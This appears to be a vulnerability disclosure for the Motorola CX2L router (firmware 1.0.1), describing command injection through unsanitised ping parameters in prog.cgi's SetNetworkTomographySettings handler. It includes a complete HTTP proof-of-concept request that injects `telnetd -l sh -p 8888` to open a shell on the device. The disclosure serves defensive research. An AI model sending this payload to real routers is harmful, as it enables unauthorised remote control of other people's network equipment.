 # Motorola Vulnerability

Vendor:Motorola

Product:CX2L

Version:1.0.1

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in Motorola router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetNetworkTomographySettings` function, `tomography_ping_address、tomography_ping_size、tomography_ping_timeout、tomography_ping_ttl` is directly passed by the attacker, so we can control the `tomography_ping_address、tomography_ping_size、tomography_ping_timeout、tomography_ping_ttl` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `tomography_ping_timeout` as **`telnetd -l sh -p 8888`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.51.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: 9D736821F2AB15929800EB0CFAA82198 1749735039466
Content-Length: 212
Origin: http://192.168.51.1
Connection: close
Referer: http://192.168.51.1/Diagnosis.html
Cookie: work_mode=router; uid=zBvmHTHO; PrivateKey=CD223E7950B3E739AB4A82C45C372637; timeout=2

{"SetNetworkTomographySettings":{"tomography_ping_address":"www.baidu.com","tomography_ping_number":"5","tomography_ping_size":"64","tomography_ping_timeout":"`telnetd -l sh -p 8888`","tomography_ping_ttl":"20"}}
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>
